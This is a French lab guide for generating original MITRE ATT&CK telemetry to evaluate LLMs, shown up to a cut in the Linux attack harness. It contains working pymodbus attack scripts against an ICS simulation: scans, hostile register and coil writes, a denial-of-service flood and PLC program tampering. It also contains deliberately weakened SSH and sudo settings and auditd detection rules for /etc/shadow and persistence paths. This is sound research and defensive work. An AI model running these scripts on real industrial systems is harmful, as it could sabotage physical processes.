

# Dataset de logs 

Nous voulons évaluer les modèles LLM et notre serveur MCP MITRE ATT&CK. 
Pour que l'évaluation soit fiable, il faut éviter la contamination (que le modèle ait déjà vu les données) : nous construisons donc notre propre lab TO/TI afin de générer une télémétrie originale. 
Ce guide explique comment nous avons construit notre dataset de logs dans un but de reproduction.



*Figure : Zone TO (GRFICS v3, OpenPLC, poste EWS, sonde Zeek) et zone TI (Windows Server +
Sysmon, Linux + auditd) ; les journaux alimentent le jeu de données.*

## Zone TO

**GRFICS v3 + sonde Zeek.** GRFICS v3 est le lab industriel open source qui fournit la
télémétrie TO (procédé chimique piloté en Modbus/TCP) ; la sonde Zeek capture les logs
et le trafic réseau (et décode le Modbus en champs exploitables).

## Zone TI

**Windows Server + Linux.** On y simule les attaques dans un environnement d'entreprise
réaliste — un domaine Active Directory (télémétrie Sysmon) et un serveur Linux
(télémétrie auditd) — pour couvrir la matrice Enterprise sur deux systèmes.


# Montage du lab et génération des attaques — guide technique par zone

# ZONE TO (VM Rocky Linux)


Cette partie construit la zone TO : une VM Linux qui héberge GRFICS (sous Docker) et la sonde
Zeek. On procède dans l'ordre : d'abord le socle (VM + Docker), puis le procédé (GRFICS),
puis la capture (Zeek) car chaque brique dépend de la précédente.*

Depuis la fenêtre de l'hyperviseur VMWare, ajouter un second disque à la VM de minimum 80 GB. 
C'est le disque dédié à l'environnement TO. 

### Laboratoire TO (GRFICS v3 + sonde Zeek) 

GRFICS et la sonde zeek tournent dans des conteneurs Docker**. Sur les versions récentes de
Docker, un piège nous a coûté du temps : le disque se remplit au mauvais endroit. En effet,
le stockage des images ne vit pas dans `/var/lib/docker` (comme on le croit) mais sous
`/var/lib/containerd`. On monte donc un disque dédié sur `/var/lib/docker` et on y
redirige `containerd` par un « bind mount ». Les commandes ci-dessous font exactement ça,
avec les deux pièges signalés.*

```bash
# Base système
sudo hostnamectl set-hostname to01
sudo timedatectl set-timezone America/Toronto     # NTP crucial : les ts Zeek sont en UTC
sudo systemctl enable --now chronyd

# Préparer le disque dédié sur /var/lib/docker (AVANT d'installer Docker)
sudo mkfs.xfs -f /dev/nvme0n2            # -f : écrase un ancien filesystem (rebuild)
sudo mkdir -p /var/lib/docker            # créer le point de montage AVANT mount -a
echo '/dev/nvme0n2  /var/lib/docker  xfs  defaults  0 0' | sudo tee -a /etc/fstab
sudo systemctl daemon-reload             # systemd relit le fstab modifié
sudo mount -a

# installer Docker (dépôt Docker CE pour Rocky)


sudo dnf -y install dnf-plugins-core
sudo dnf config-manager --add-repo https://download.docker.com/linux/centos/docker-ce.repo
sudo dnf makecache


sudo dnf -y install docker-ce docker-ce-cli containerd.io docker-buildx-plugin docker-compose-plugin

sudo systemctl enable --now docker
docker --version && docker compose version
sudo docker run --rm hello-world      # test (doit afficher "Hello from Docker!")


# Rediriger le store containerd DANS le disque dédié (bind mount)
sudo systemctl stop docker docker.socket containerd
sudo mkdir -p /var/lib/docker/_containerd_store
sudo rsync -aHAX /var/lib/containerd/ /var/lib/docker/_containerd_store/   # -X = préserve SELinux
sudo mv /var/lib/containerd /var/lib/containerd.old && sudo mkdir /var/lib/containerd

echo '/var/lib/docker/_containerd_store  /var/lib/containerd  none  bind,x-systemd.requires-mounts-for=/var/lib/docker  0 0' | sudo tee -a /etc/fstab
grep containerd /etc/fstab                         # VÉRIFIER que la ligne est là
sudo mount -a
mountpoint /var/lib/containerd                     # doit répondre "is a mountpoint"

sudo restorecon -Rv /var/lib/containerd
sudo systemctl daemon-reload && sudo systemctl start containerd docker
docker images                               # doit lister les images une fois GRFICS tiré
```


### Déployer GRFICS V3

Le lab GRFICS v3 fournit tout le procédé industriel sous forme de conteneurs : l'automate (`plc`), la
simulation physique (`simulation`, qui héberge les serveurs Modbus cibles), le poste
d'ingénierie (`ews`), l'attaquant (`kali`), etc. On lance la pile — sans le profil `siem`
(Wazuh), inutile ici puisque notre capture réseau passe par Zeek.*

```bash
git clone https://github.com/Fortiphyd/GRFICSv3.git ~/lab-to/grfics    # à adapter au dépôt utilisé
cd ~/lab-to/grfics
cp docker-compose.yml docker-compose.yml.bak      # sauvegarde

# configurer les interfaces réseaux macvlan
grep -n 'parent:' docker-compose.yml

# réseau 192.168.95.x  -> VLAN 95 sur interface sécondaire ens224 ; 
# réseau 192.168.90.x -> VLAN 90 sur ens224

sudo sed -i '256s|parent: eth0.*|parent: ens224.95|' docker-compose.yml
sudo sed -i '265s|parent: eth0.*|parent: ens224.90|' docker-compose.yml

grep -n 'parent:' docker-compose.yml              # doit montrer ens224.95 et ens224.90

docker compose up -d                               # démarre plc, simulation, ews, kali, router, ...
docker ps                                          # vérifier que simulation porte une IP .95
```

### Construire et lancer la sonde Zeek

*C'est la brique de capture. On construit une image Zeek « sur mesure » qui embarque les
analyseurs ICSNPP Modbus (pour décoder le Modbus) et détecte automatiquement la bonne
interface réseau. Le point subtil : pour que Zeek voie le trafic Modbus interne au
segment TO, on le lance en partageant le namespace réseau du conteneur `simulation`** —
autrement dit, Zeek « regarde » le réseau exactement comme la simulation le voit. D'où
l'ordre impératif : la simulation doit être démarrée avant la sonde.*


**Dockerfile** de la sonde zeek  :

```bash
mkdir -p ~/lab-to/zeek-ics
cat > ~/lab-to/zeek-ics/Dockerfile <<'EOF'
FROM zeek/zeek:latest
RUN apt-get update && apt-get install -y iproute2
RUN zkg autoconfig --force \
 && zkg refresh \
 && zkg install --force icsnpp-modbus icsnpp-dnp3
COPY entrypoint.sh /entrypoint.sh
RUN chmod +x /entrypoint.sh
ENTRYPOINT ["/entrypoint.sh"]
EOF
```

**entrypoint.sh** (détecte l'interface sur le segment .95, capture le Modbus en JSON):
On dit à Zeek de ne capturer que les paquets impliquant tes machines d'attaque (kali .90.6 et EWS .95.5) via un filtre BPF (-f). Tout le reste est ignoré au niveau du sniffer afin d'éviter d'avoir le bruit du trafic normal. (sinon enregistre plus de 80% de bruits PLC contre 20% d'attaques.)

```bash
cat > ~/lab-to/zeek-ics/entrypoint.sh <<'EOF'
#!/usr/bin/env bash
IFACE=$(ip -o -4 addr show | awk '/192\.168\.95\./ {print $2; exit}')
# Anti-bruit (corrige) : on ne garde que les echanges dont kali (.90.6) ou EWS (.95.5) est une extremite.
# -> les requetes d'attaque ET les reponses de l'automate a l'attaquant (ex. sur .11) restent capturees ;
# -> la boucle de fond automate<->controleur (aucun attaquant) est desormais exclue = plus de bruit .11/.12/.13.
FILTRE="host 192.168.90.6 or host 192.168.95.5"
echo "Capture Zeek sur $IFACE — filtre: $FILTRE"
mkdir -p /zeek/logs && cd /zeek/logs
exec zeek -C -i "$IFACE" -f "$FILTRE" icsnpp-modbus icsnpp-dnp3 LogAscii::use_json=T
EOF
```


**Construire puis lancer** :

```bash

cd ~/lab-to/zeek-ics
docker build -t lab-to-zeek:latest .          # peut prendre quelques minutes (compile l'analyseur Modbus)

mkdir -p ~/lab-to/zeek-logs
# La sonde partage le namespace réseau du conteneur simulation pour voir le Modbus intra-segment
docker run -d --name zeek --network container:simulation \
  -v ~/lab-to/zeek-logs:/zeek/logs lab-to-zeek:latest

docker ps | grep zeek
docker logs zeek                              # doit afficher "Capture Zeek sur l'interface : ens..." (un nom, pas vide)


# Vérifier que la capture voit le Modbus TO
sleep 3; ls ~/lab-to/zeek-logs/    # doit contenir conn.log, modbus.log, modbus_detailed.log
```


---

## Attaques

Ici, on génère la matière première du dataset : on lance de vraies attaques Modbus
contre la simulation, et Zeek les capture. Le principe est toujours le même  on encadre
chaque attaque d'une fenêtre `t0/t1`, on note la technique dans `trace_attaques`, et on
laisse Zeek journaliser. On organise les attaques par tactique ATT&CK (le « pourquoi »
de l'attaquant : découvrir, collecter, altérer, bloquer…).*

### Préparation de la session

*On travaille avec deux terminaux SSH ouverts en parallèle. Le premier sert de
détecteur : il affiche en temps réel les transactions Modbus qui arrivent, ce qui permet
de « voir » l'attaque au moment où on la lance (utile pour vérifier que tout fonctionne). Le
second sert à piloter les tirs. Avant de commencer, on s'assure que les trois serveurs
Modbus cibles répondent bien.*

```bash
# Fenêtre A (détecteur) : voit arriver les attaques (kali .90.6 ou ews .95.5)
docker exec zeek bash -c 'until [ -f /zeek/logs/modbus.log ]; do sleep 1; done; tail -F /zeek/logs/modbus.log' \
  | grep -E --line-buffered '"id.orig_h":"192.168.90.6"|"id.orig_h":"192.168.95.5"'
```

```bash
# Fenêtre B : vérifier que les 3 serveurs Modbus répondent
docker exec kali bash -c 'for ip in 11 12 13; do timeout 2 bash -c "</dev/tcp/192.168.95.$ip/502" && echo ".$ip OK" || echo ".$ip DOWN"; done'
```

### Le harnais réseau et les attaques Modbus

*Le harnais `atk` est une petite fonction qui automatise le rituel de labellisation :
elle note `t0`, exécute l'attaque, note `t1`, et écrit une ligne dans `trace_attaques`
(technique + source + fenêtre). On lui indique la source (`kali` = externe, ou `EWS` =
interne). Ainsi, chaque tir est proprement horodaté et étiqueté — sans jamais mélanger
l'étiquette avec les logs capturés.*

```bash
GT_NET=~/lab-to/trace_attaques_zeek.jsonl; > "$GT_NET"                  # vérité-terrain RÉSEAU (vidée au départ)
atk(){ tid="$1"; sub="$2"; src="$3"; shift 3                 # src = kali (externe) ou EWS (interne)
  case "$src" in kali) sip=192.168.90.6;; EWS) sip=192.168.95.5;; esac
  t0=$(date -u +%Y-%m-%dT%H:%M:%S.%NZ); "$@"; rc=$?; t1=$(date -u +%Y-%m-%dT%H:%M:%S.%NZ)
  printf '{"technique":"%s","sub_technique":"%s","src":"%s","t0":"%s","t1":"%s","rc":%d}\n' \
    "$tid" "$sub" "$sip" "$t0" "$t1" "$rc" >> "$GT_NET"
  echo ">>> $tid rc=$rc"; }
```

*Toutes les attaques passent par la bibliothèque pymodbus exécutée dans le conteneur
source. La forme est toujours : `atk <technique> <sous-id> <kali|EWS> docker exec -i <src>
python3 -c '...'`.*

#### Discovery (reconnaissance)

*L'attaquant vient d'arriver : il ne connaît pas encore le réseau. La **Discovery** consiste
à le cartographier — trouver les équipements et identifier ce qu'ils sont.*

```bash
# T0846.001 Remote System Discovery: Port Scan : balayer le segment à la recherche de serveurs Modbus (port 502)
atk T0846 T0846.001 kali docker exec -i kali python3 -c '
import socket
for i in range(1,255):                      # teste .1 à .254
    s=socket.socket(); s.settimeout(0.2)
    try: s.connect(("192.168.95.%d"%i,502)); print("MODBUS ouvert: .%d"%i)   # port 502 ouvert = serveur Modbus
    except: pass
    finally: s.close()'
sleep 30

# T0888 Remote System Information Discovery : identifier l'équipement (Modbus FC 43)
atk T0888 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
print(c.read_device_information()); c.close()'    # lit l'identification de l'appareil
sleep 30
```

#### Collection

Une fois les équipements repérés, l'attaquant récolte des informations sur le procédé :
il lit les registres (les valeurs du procédé), cartographie les points de mesure, surveille
l'état. C'est de l'espionnage, pas encore du sabotage.*

```bash
# T0861 Point & Tag Identification : cartographier la table de registres (tactique Collection)
atk T0861 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
for b in range(0,120,10):                   # parcourt les registres par blocs de 10
    r=c.read_holding_registers(address=b,count=10); print(b,r.registers)
c.close()'
sleep 30

# T0801 Monitor Process State — surveiller l'état du procédé (lecture répétée)
atk T0801 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient; import time
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
for _ in range(30):                         # 30 lectures espacées
    r=c.read_input_registers(address=0,count=10); print(r.registers); time.sleep(0.2)
c.close()'
sleep 30

# T0802 Automated Collection — collecte automatisée sur les 3 serveurs
atk T0802 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient
for ip in ["192.168.95.11","192.168.95.12","192.168.95.13"]:   # sweep des 3 cibles
    c=ModbusTcpClient(ip,port=502); c.connect()
    print(ip,c.read_holding_registers(address=0,count=20).registers); c.close()'
sleep 30

# T0868 Detect Operating Mode — détecter le mode de fonctionnement (coils + discrete inputs)
atk T0868 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
print("coils",c.read_coils(address=0,count=16).bits)              # sorties tout-ou-rien
print("discrete",c.read_discrete_inputs(address=0,count=16).bits); c.close()'   # entrées tout-ou-rien
sleep 30
```

#### Impair Process Control (altérer le pilotage)

*Ici commence le sabotage : l'attaquant écrit dans le procédé pour en fausser le
pilotage (modifier une consigne, forcer des valeurs). Point important pour un lab
responsable : chaque écriture **sauvegarde d'abord l'état, injecte la valeur hostile, puis
restaure l'original**. L'attaque est bien réelle et capturée par Zeek, mais on ne laisse pas
le procédé dans un état dégradé.*

```bash
# T0836 Modify Parameter : écrire une consigne hostile puis restaurer
atk T0836 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
orig=c.read_holding_registers(address=0,count=3).registers   # sauvegarde etat
c.write_registers(address=0,values=[9999,9999,9999])         # injecte valeurs hostiles
c.write_registers(address=0,values=orig); c.close()'         # restaure
sleep 30

# T1692.001 Unauthorized Command Message : commande d écriture non autorisée (multi-tactique Impair + Evasion)

atk T1692.001 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
orig=c.read_holding_registers(address=5,count=1).registers
c.write_register(address=5,value=1)                          # écrit une commande
c.write_register(address=5,value=orig[0]); c.close()'        # restaure
sleep 30

# T0806 Brute Force I/O : balayer rapidement des valeurs sur un registre
atk T0806 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient; import time
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
for v in range(0,65535,4096): c.write_register(address=0,value=v); time.sleep(0.05)  # rafale de valeurs
c.write_register(address=0,value=0); c.close()'              # remet à 0
sleep 30
```

#### Inhibit Response Function (empêcher la réponse)

Cette tactique vise à empêcher le système de réagir correctement : forcer l'image des
entrées/sorties, ou noyer le service sous les requêtes pour qu'il ne réponde plus (déni de
service). C'est ce qui, dans une vraie usine, empêcherait les protections de se déclencher.*

```bash
# T0835 Manipulate I/O Image : forcer massivement l'image des sorties (coils) puis restaurer
atk T0835 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient
c=ModbusTcpClient("192.168.95.11",port=502); c.connect()
orig=c.read_coils(address=0,count=16).bits                   # sauvegarde
c.write_coils(address=0,values=[True]*16)                    # force toutes les sorties à ON
c.write_coils(address=0,values=list(orig[:16])); c.close()'  # restaure
sleep 30

# T0814 Denial of Service : inonder le service Modbus (15 threads, 8 s)
atk T0814 - kali docker exec -i kali python3 -c '
from pymodbus.client import ModbusTcpClient; import threading,time
DUR=8
def flood():                                                 # un thread inondation
    c=ModbusTcpClient("192.168.95.11",port=502)
    if not c.connect(): return
    end=time.time()+DUR
    while time.time()<end:
        try: c.read_holding_registers(address=0,count=125)   # lectures en rafale
        except: break
    c.close()
ts=[threading.Thread(target=flood) for _ in range(15)]       # 15 threads en parallele
[t.start() for t in ts]; [t.join() for t in ts]'
sleep 30
```

> Le point de vue interne. Rejouer chaque tir aussi depuis l'ews (remplacer `kali`
> par `EWS`, et `docker exec -i kali` par `docker exec -i ews`) donne la variante « attaque
> venant de l'intérieur du réseau industriel » — utile pour tester la robustesse du modèle.

### Le harnais hôte (auditd) et les attaques Execution

*Jusqu'ici, tout passait par le réseau (Zeek). Mais certaines techniques ICS s'exécutent
dans l'automate lui-même — par exemple lancer des commandes ou modifier le programme du
PLC. Ces actions ne génèrent aucun paquet Modbus ; c'est auditd (sur l'hôte) qui les
capture. Un défi pratique : les conteneurs GRFICS génèrent en permanence du bruit
(vérifications de santé). Pour distinguer nos attaques de ce bruit, on les exécute avec un
marqueur : le groupe GID 4242 Concrètement, `docker exec -u 0:4242` lance la
commande en root (tous les droits) mais avec `gid=4242` — une signature qu'on retrouvera
facilement dans les logs.*
Côté télétrie, on configure les règles auditd pour capturer uniquement les commandes marqués au lieu de tout journaliser.


```bash
# Règles auditd (volatiles — à reposer après un reboot)
sudo systemctl enable --now auditd
sudo auditctl -D
sudo auditctl -a always,exit -F arch=b64 -S execve             -F gid=4242 -k T_execution   # commandes
sudo auditctl -a always,exit -F arch=b64 -S openat -F a2\&0100 -F gid=4242 -k T_execution   # fichiers créés/modifiés
sudo auditctl -l          # doit montrer 2 règles (execve + openat), toutes deux avec gid=4242

# Harnais hôte : le marqueur gid=4242 est posé par docker exec -u 0:4242
MGID=4242; GT_HOST=~/lab-to/trace_attaques_audit.jsonl; > "$GT_HOST"     # vérité-terrain HÔTE (vidée au départ)
atk_host(){ tid="$1"; sub="$2"; tgt="$3"; shift 3                 # tgt = conteneur cible (ex. plc)
  t0=$(date -u +%Y-%m-%dT%H:%M:%S.%NZ); docker exec -u 0:$MGID "$tgt" "$@"; rc=$?; t1=$(date -u +%Y-%m-%dT%H:%M:%S.%NZ)
  printf '{"technique":"%s","sub_technique":"%s","target_container":"%s","marker_gid":%d,"t0":"%s","t1":"%s","rc":%d}\n' \
    "$tid" "$sub" "$tgt" "$MGID" "$t0" "$t1" "$rc" >> "$GT_HOST"
  echo ">>> $tid sur $tgt rc=$rc"; }

```

```bash
# T0807 Command-Line Interface — exécuter des commandes shell dans l'automate (conteneur plc)
atk_host T0807 - plc sh -c 'uname -a; id; ls -la /workdir'   # reconnaissance dans le PLC
sleep 30

# T0853 Scripting — exécuter un script dans le conteneur cible
atk_host T0853 - plc sh -c 'cat > /tmp/s.sh <<EOF
#!/bin/sh
for i in 1 2 3; do echo "iteration $i"; done
EOF
chmod +x /tmp/s.sh; /tmp/s.sh'                               # crée puis exécute un script
sleep 30

# T0889 Modify Program / T0821 Modify Controller Tasking — modifier le programme OpenPLC
atk_host T0889 - plc sh -c 'ls -la /workdir/webserver/st_files; echo "(* modif attaquant $(date) *)" >> /workdir/webserver/st_files/326339.st; tail -3 /workdir/webserver/st_files/326339.st'
sleep 30


# (le chemin exact des fichiers de programme OpenPLC dépend de l'image : adapter selon ls -la /workdir)
```


### Emplacements sur la VM (`~/lab-to`)

| Contenu | Chemin |
|---|---|
| Logs Zeek réseau (Modbus) | `~/lab-to/zeek-logs/*.log` (conn.log, modbus.log, modbus_detailed.log…) |
| Vérité-terrain réseau | `~/lab-to/trace_attaques_zeek.jsonl` |
| Vérité-terrain hôte (PLC) | `~/lab-to/trace_attaques_audit.jsonl` |
| Télémétrie hôte (auditd) | `/var/log/audit/audit.log` (root) |

### Exportation du dataset

Sur la VM Linux TO : 

```bash
cd ~
mkdir -p ~/dataset_to/zeek-logs
cp -a ~/lab-to/zeek-logs/*.log  ~/dataset_to/zeek-logs/ 2>/dev/null      # télémétrie réseau (Zeek)
cp ~/lab-to/trace_attaques_zeek.jsonl ~/lab-to/trace_attaques_audit.jsonl ~/dataset_to/ 2>/dev/null  # vérités-terrain
ausearch -k T_execution > ~/dataset_to/audit_to.log
grep -c 'gid=4242' ~/dataset_to/audit_to.log      # = uniquement tes execve d'attaque

chown -R "$USER:$USER" ~/dataset_to # rendre lisible
tar czf ~/dataset_to.tar.gz -C ~ dataset_to
ls -lh ~/dataset_to.tar.gz                                              # vérifier que le .tar.gz existe

cp /root/dataset_to.tar.gz /home/admin/        # copie dans le home d'admin
chown admin:admin /home/admin/dataset_to.tar.gz  # rendre le fichier lisible par admin
ls -lh /home/admin/dataset_to.tar.gz                                   

```
Exportation du dataset sur le Terminal de l'Hôte Windows :

```powershell
New-Item -ItemType Directory "$env:USERPROFILE\Desktop\dataset" -Force | Out-Null
scp <user_ot>@<ip_ot>:~/dataset_to.tar.gz "$env:USERPROFILE\Desktop\dataset\"
cd "$env:USERPROFILE\Desktop\dataset"; tar -xzf dataset_to.tar.gz
```
Pour exploiter le dataset, on va transformer les fichiers de télémtrie en échantillons groupés par attaque en gardant une trace de la vérité de terrain dans un fichier "vérite_de_terrain_to.jsonl" séparé à l'aide d'un script python.
Il va créer les échantillons groupé sans les IDs MITRE et la vérité de terrain dans le même répertoire

```powershell
python preparer_dataset_to.py --dossier dataset_to
```


---

### Préparer le dataset TO

Pour la zone TO, le script lit d'abord les fichiers de télémétrie — le réseau Modbus capté par Zeek (`conn.log`, `modbus.log`, `modbus_read_device_identification.log`) et l'activité hôte via auditd (`audit_to.log`) — ainsi que les traces d'attaques (`trace_attaques_zeek.jsonl` et `trace_attaques_audit.jsonl`), qui donnent l'intervalle de temps de chaque attaque. Avant tout, il valide chaque identifiant MITRE** contre le catalogue officiel ATT&CK for ICS : si un ID est révoqué, il le remplace par sa version à jour et récupère son nom et ses tactiques. Il groupe ensuite les événements par attaque** grâce à ces fenêtres de temps, formant nos échantillons, puis écrit chacun dans son fichier `S###.jsonl` sans l'étiquette, tandis qu'un fichier séparé, `verite_terrain.jsonl`, relie chaque échantillon à son identifiant MITRE (la réponse).

Pour ce faire, on va lancer : 

```powershell
python preparer_dataset.py --dossier dataset_to
```

---


*éteindre la machine (optionnel)* 

```bash
 cd ~/lab-to/grfics/       # éteindre le lab TO GRFICS
 docker compose down 
 docker compose ps
 docker stop ¨<id_du_conteneur> # éteindre le détecteur entrypoint.sh 
 systemctl stop auditd    #arrêter la télémétrie auditd
 poweroff
```

# ZONE TI 


Cette partie construit la zone TI : une VM Linux et une VM Windows Server.


## Linux (VM Rocky Linux « web01 »)

Cette partie construit la brique Linux de la zone TI : un serveur d'entreprise instrumenté
avec auditd, sur lequel on rejoue des techniques MITRE ATT&CK Enterprise propres à Unix
(shell, cron, systemd, `/etc/shadow`, élévation de privilèges) afin de générer de la
télémétrie d'attaque.

On utilise deux sessions ssh pour intérragir avec la vm rocky linux et ce pour garder le journal propre (sans bruits). Ainsi la règle auditd ne capture que la session webadmin (filtrée sur son `auid`, l'identité de connexion qui reste la même même après un `sudo`). Tout le reste du travail se fait donc en root, où il devient invisible à la capture.

Sinon, ces commandes d'administration généreraient du bruit dans le journal, mélangé aux attaques lors de : 
- la préparation (création des comptes, pose des règles auditd, gel du journal), 
- l'export du dataset (`ausearch`, `tar`, `cp`) et 


En les faisant en root, le journal ne contient que les 16 attaques, sans rien d'autre à trier ensuite.


## 1. Préparation de la VM (session root)

*On se connecte d'abord en root (toute la préparation, puis l'export, se font dans cette
session).

```bash
ssh root@<adresse_ip>
```

*Base système : nom de machine, fuseau (les horodatages auditd sont corrélés à la
vérité-terrain), et NTP pour des horodatages fiables.*

```bash
hostnamectl set-hostname web01                               # nom de la machine
timedatectl set-timezone America/Toronto                     # fuseau horaire
systemctl enable --now chronyd                               # NTP (horodatages fiables)
touch /etc/rc.d/rc.local                                     # pré-créer une cible surveillée
```

## 2. Création des comptes root et webadmin (session root)

*On s'assure que l'utilisateur `root` a un mot de passe et un accès SSH (pour la session d'administration),
puis on crée `webadmin` : le compte « compromis » qui jouera les attaques.*

```bash
# --- accès root (labo isolé) ---
passwd root                                                  # définir/mettre à jour le mot de passe root
sed -i 's/^#\?PermitRootLogin.*/PermitRootLogin yes/' /etc/ssh/sshd_config   # autoriser SSH root
systemctl restart sshd
```

*`webadmin` est membre de `wheel` (donc `sudo`) et du groupe marqueur `atkmark` de GID 4242
(une signature qu'on retrouve facilement dans les logs). On lui donne `sudo` sans mot de passe
(attaques scriptées) et un accès SSH par mot de passe.*

```bash
# --- compte "compromis" webadmin ---
groupadd -g 4242 atkmark                                     # groupe marqueur (GID 4242)
useradd -m -G wheel webadmin                                 # compte "compromis" (sudo via wheel)
echo 'webadmin:Passw0rd!2026' | chpasswd                     # mot de passe (labo, volontairement simple)
usermod -aG atkmark webadmin                                 # webadmin membre du marqueur

echo 'webadmin ALL=(ALL) NOPASSWD:ALL' > /etc/sudoers.d/webadmin   # sudo sans mot de passe

install -d -o webadmin -g webadmin /home/webadmin/.ssh       # pré-créer une cible surveillée
sed -i 's/^#\?PasswordAuthentication.*/PasswordAuthentication yes/' /etc/ssh/sshd_config
systemctl restart sshd                                       # activer SSH par mot de passe
```

*Vérification :*

```bash
id webadmin | grep -o '4242(atkmark)'    # -> 4242(atkmark)
id webadmin | grep -o 'wheel'            # -> wheel
```

## 3. Télémétrie auditd (session root)

*On installe auditd puis on pose des règles conçues pour n'enregistrer QUE la session
`webadmin`. Deux idées : (1) filtrer sur l'`auid` de `webadmin` (`-F auid=<uid>`) — cela
capture les commandes d'attaque ET leurs cœurs `sudo` (qui gardent l'`auid`), mais pas les
démons ni root ; (2) exclure le bruit technique (le wrapper du marqueur `sg`/`newgrp` et
les utilitaires `date`/`sleep`), sans quoi le `setgid` interne de `newgrp` polluerait chaque
échantillon (faux « élévation de privilèges »).*

```bash
dnf install -y audit; systemctl enable --now auditd

WUID=$(id -u webadmin)          # uid de webadmin (=1001) : l'auid de capture

tee /etc/audit/rules.d/lab.rules >/dev/null <<RULES
-D
-b 8192

# ---- EXCLUSIONS (never d'abord) : bruit technique du harnais / marqueur ----
-a never,exit -F arch=b64 -F exe=/usr/bin/newgrp     # wrapper du marqueur (sg)
-a never,exit -F arch=b64 -F exe=/usr/bin/sg
-a never,exit -F arch=b64 -F exe=/usr/bin/sleep      # pause entre attaques
-a never,exit -F arch=b64 -F exe=/usr/bin/date       # horodatage t0/t1

# ---- CAPTURES : uniquement la session de login webadmin (auid=$WUID) ----
# Les cœurs privilégiés (sudo -> gid=0) sont CONSERVÉS car l'auid survit à sudo.
-a always,exit -F arch=b64 -S execve -F auid=$WUID -k T_execution
-a always,exit -F arch=b64 -S setuid -S setgid -F auid=$WUID -k T_privesc
-a always,exit -F arch=b64 -S chmod -S fchmod -S fchmodat -F auid=$WUID -k T_perm
-a always,exit -F arch=b64 -S chown -S fchown -S fchownat -S lchown -F auid=$WUID -k T_perm
-a always,exit -F path=/etc/shadow -F perm=rwa -F auid=$WUID -k T_credaccess
-a always,exit -F path=/etc/passwd -F perm=wa  -F auid=$WUID -k T_credaccess
-a always,exit -F path=/etc/crontab -F perm=wa -F auid=$WUID -k T_persistence
-a always,exit -F dir=/etc/cron.d -F perm=wa -F auid=$WUID -k T_persistence
-a always,exit -F dir=/var/spool/cron -F perm=wa -F auid=$WUID -k T_persistence
-a always,exit -F dir=/etc/systemd/system -F perm=wa -F auid=$WUID -k T_persistence
-a always,exit -F path=/etc/rc.d/rc.local -F perm=wa -F auid=$WUID -k T_persistence
-a always,exit -F path=/home/webadmin/.bashrc -F perm=wa -F auid=$WUID -k T_persistence
-a always,exit -F dir=/home/webadmin/.ssh -F perm=wa -F auid=$WUID -k T_persistence
RULES

augenrules --load
auditctl -l | grep -c "auid=$WUID"      # doit afficher 13 (les règles de capture)
```

*Dossiers de travail créés par root et donnés à webadmin (pour ne pas avoir à les créer côté
webadmin, ce qui laisserait une trace dans la capture) :*

```bash
install -d -o webadmin -g webadmin /home/webadmin/lab-ti-linux /home/webadmin/dataset_ti_linux
```

## 4. Geler le journal juste avant les attaques (session root)

*On rote le journal pour repartir d'un fichier vide : aucune trace de la préparation n'y figure.*

```bash
service auditd rotate 2>/dev/null || pkill -USR1 -x auditd
wc -l /var/log/audit/audit.log          # doit être ~0 (journal frais)
```

---

## 5. Attaques (session webadmin)

*On ouvre une seconde session SSH, en `webadmin` cette fois** (garder la session root ouverte
à côté). Cette session n'exécute **que** les 16 attaques : ni contrôle, ni export, ni
nettoyage — sinon ces commandes seraient capturées dans le journal.*

```bash
ssh webadmin@<adresse_ip>       # whoami -> webadmin ; id -u -> 1001
```

*On génère la matière première : chaque attaque est encadrée par une fenêtre `t0/t1` (UTC)
écrite dans `trace_attaques_linux_ti.jsonl` (un objet JSON par ligne). Chaque tir passe par le
harnais `sg atkmark` (marqueur GID 4242) ; on espace les tirs de **30 s** pour que les fenêtres
soient strictement disjointes ; et le **nettoyage n'est PAS fait ici** (sauf la seule exception
du crontab, voir T1053.003).*

### Le harnais

*`atk` note `t0`, exécute la commande sous le marqueur, note `t1`, et écrit une ligne de
vérité-terrain.*

```bash
GT=~/lab-ti-linux/trace_attaques_linux_ti.jsonl; > "$GT"     # vérité-terrain JSONL (vidée au départ)
atk(){ tid="$1"; sub="$2"; tac="$3"; cmd="$4"
  t0=$(date -u +%Y-%m-%dT%H:%M:%S.%NZ)                       # horodatage début (UTC)
